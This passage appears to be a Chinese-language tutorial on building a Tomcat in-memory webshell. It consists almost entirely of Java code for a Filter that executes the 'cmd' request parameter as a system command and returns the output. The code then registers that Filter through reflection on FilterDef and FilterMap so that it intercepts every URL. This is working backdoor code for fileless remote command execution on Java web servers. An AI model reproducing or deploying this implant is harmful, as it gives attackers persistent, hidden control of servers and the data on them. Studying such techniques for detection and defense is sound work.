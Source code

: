 - 接着，定义一个 Filter

JAVA

```
Filter filter = new Filter() {  
  
                    @Override  
 public void init(FilterConfig filterConfig) throws ServletException {  
  
                    }  
  
                    @Override  
 public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {  
                        HttpServletRequest req = (HttpServletRequest) servletRequest;  
 if (req.getParameter("cmd") != null){  
  
                            InputStream in = Runtime.getRuntime().exec(req.getParameter("cmd")).getInputStream();  
//  
 Scanner s = new Scanner(in).useDelimiter("\\A");  
 String output = s.hasNext() ? s.next() : "";  
 servletResponse.getWriter().write(output);  
  
 return; }  
                        filterChain.doFilter(servletRequest,servletResponse);  
 }  
  
                    @Override  
 public void destroy() {  
  
                    }  
                };
```

- 再设置 FilterDef 和 FilterMaps

JAVA

```
//反射获取 FilterDef，设置 filter 名等参数后，调用 addFilterDef 将 FilterDef 添加  
Class<?> FilterDef = Class.forName("org.apache.tomcat.util.descriptor.web.FilterDef");  
Constructor declaredConstructors = FilterDef.getDeclaredConstructor();  
FilterDef o = (FilterDef) declaredConstructors.newInstance();  
o.setFilter(filter);  
o.setFilterName(FilterName);  
o.setFilterClass(filter.getClass().getName());  
standardContext.addFilterDef(o);  
//反射获取 FilterMap 并且设置拦截路径，并调用 addFilterMapBefore 将 FilterMap 添加进去  
Class<?> FilterMap = Class.forName("org.apache.tomcat.util.descriptor.web.FilterMap");  
Constructor<?> declaredConstructor = FilterMap.getDeclaredConstructor();  
org.apache.tomcat.util.descriptor.web.FilterMap o1 = (FilterMap)declaredConstructor.newInstance();  
  
o1.addURLPattern("/*");  
o1.setFilterName(FilterName);  
o1.setDispatcher(DispatcherType.REQUEST.name());  
standardContext.addFilterMapBefore(o1);
```
